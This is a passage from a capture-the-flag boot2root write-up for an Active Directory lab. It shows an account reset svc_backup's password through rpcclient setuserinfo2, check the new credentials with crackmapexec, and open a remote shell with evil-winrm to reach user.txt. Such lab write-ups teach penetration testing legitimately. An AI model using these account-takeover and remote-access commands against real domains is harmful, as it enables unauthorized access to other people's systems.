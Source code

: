 From here, we know that user <code>lc.wei</code> is able to **force change the password** of user <code>svc_backup</code>. So, the plan here is to change the password of user <code>svc_backup</code>, then connect to the server via <code>evil-winrm</code> using the new <code>svc_backup</code> credentials.

Change the <code>svc_backup</code> password via <code>rpcclient</code>:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ rpcclient -U "bahtera.corp/lc.wei%I_am_the_one" 192.168.211.142

rpcclient $> setuserinfo2 svc_backup 23 'NewP@ssw0rd!'
rpcclient $> exit
```

We can try to verify if we successfully changed the <code>svc_backup</code> password:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ crackmapexec winrm 192.168.211.142 -u svc_backup -p 'NewP@ssw0rd!'
SMB         192.168.211.142 5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:bahtera.corp)
HTTP        192.168.211.142 5985   DC01             [*] http://192.168.211.142:5985/wsman
WINRM       192.168.211.142 5985   DC01             [+] bahtera.corp\svc_backup:NewP@ssw0rd! (Pwn3d!)
```

Then, we can connect to the server via <code>evil-winrm</code>:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ evil-winrm -i 192.168.211.142 -u svc_backup -p 'NewP@ssw0rd!'

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

Nice, now search for the <code>user.txt</code> to get the flag:
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir


    Directory: C:\Users\svc_backup\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/11/2025   6:32 AM             38 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
```

